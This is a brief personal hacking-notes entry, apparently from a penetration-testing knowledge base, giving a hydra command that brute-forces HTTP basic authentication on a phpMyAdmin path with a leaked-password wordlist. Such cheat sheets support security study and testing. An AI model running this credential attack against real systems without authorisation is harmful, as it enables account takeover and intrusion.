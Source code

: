 # hydra brute force HTTP basic authentication also works for NTLM
```bash
hydra $IP http-get -L users  -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt /phpmyadmin
```

# References
- [20221003150849](/zet/20221003150849/README.md) hydra brute force HTTP basic authentication
- ~/kb/hacking/commands/hydra-http-auth.md

Tags:
    #assorted #command
